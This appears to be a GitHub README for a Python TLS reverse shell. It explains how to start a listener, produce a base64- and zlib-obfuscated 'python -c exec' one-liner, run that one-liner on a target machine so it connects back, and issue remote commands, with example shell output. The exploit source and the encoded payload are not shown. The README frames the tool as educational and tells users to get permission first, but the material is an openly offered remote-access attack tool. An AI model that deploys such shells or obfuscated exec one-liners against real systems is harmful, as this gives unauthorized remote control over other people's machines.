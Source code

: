 
# TLS Reverse Shell

This repository contains a Python-based TLS server and a generated client script designed for secure remote communication. The server uses a self-signed SSL certificate to ensure encrypted communication. The client script is dynamically generated and compressed for easy deployment.

---

## **Features**
- Generates RSA keys and a self-signed SSL certificate.
- Dynamically creates a one-liner client script.
- Encrypted communication using TLS.
- Ability to control the client remotely.
- Graceful server shutdown with confirmation prompt.

---

## **Requirements**
### **Dependencies**
- Python 3.6+
- Libraries:
  - `pycryptodome`
  - `zlib` (standard library)
  - `ssl` (standard library)
  - `socket` (standard library)
  
Install dependencies with:
```bash
pip install pycryptodome
```

### **Other Tools**
- OpenSSL (pre-installed on most systems)

---

## **How to Use**

### **1. Setup**
1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/tls-reverse-shell.git
   cd tls-reverse-shell
   ```

2. Install the required libraries:
   ```bash
   pip install pycryptodome
   ```

---

### **2. Running the Server**
Run the server script:
```bash
python server.py
```

When prompted, enter the server's IP address (e.g., `192.168.1.11`).

The server will:
- Generate or reuse existing RSA keys and a self-signed SSL certificate.
- Provide a one-liner Python client script.

---

### **3. Deploying the Client**
Copy the one-liner client script from the server output. Run it on the target client machine:
```bash
python -c "import zlib,base64;exec(zlib.decompress(base64.b64decode('...')))"
```

The client will connect back to the server.

---

### **4. Using the Shell**
- After the client connects, enter commands into the shell to execute them on the client machine.
- To end the session, type:
  ```plaintext
  exit
  ```

- The server will ask for confirmation to shut down:
  ```plaintext
  [?] Do you want to shut down the server? (y/n)
  ```

  - If you confirm with `y`, the server shuts down, freeing the port.
  - If you respond with `n`, the current session ends, but the server keeps listening for new connections.

---

## **Example Workflow**
1. Start the server:
   ```bash
   python server.py
   ```
   Example output:
   ```plaintext
   [*] Server listening on 192.168.1.11:443
   [--- One-Liner Python Client Code ---]
   python -c "import zlib,base64;exec(zlib.decompress(base64.b64decode('...')))"
   [--- End of Client Code ---]
   ```

2. Deploy and run the client script on another machine:
   ```bash
   python -c "import zlib,base64;exec(zlib.decompress(base64.b64decode('...')))"
   ```

3. Execute commands on the client:
   ```plaintext
   Shell> pwd
   /home/client_user
   Shell> ls
   Desktop  Documents  Downloads
   Shell> exit
   [?] Do you want to shut down the server? (y/n): n
   [*] Session ended, but the server is still running.
   ```

---

## **File Structure**
```
.
├── server.py           # Main server script
├── keys/               # Directory for storing RSA keys and SSL certificates
│   ├── private_key.pem # RSA private key
│   ├── public_key.pem  # RSA public key
│   └── server.crt      # Self-signed SSL certificate
```

---

## **Security Notes**
- This project is **for educational purposes only**. Do not use it for unauthorized access to systems or networks.
- Always obtain permission before deploying the client script on any machine.
- Consider replacing the self-signed certificate with one from a trusted Certificate Authority for real-world use.

---

## **License**
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

## **Disclaimer**
This project is intended for ethical and educational use in controlled environments only. Misuse of this software could result in legal consequences. Use responsibly!
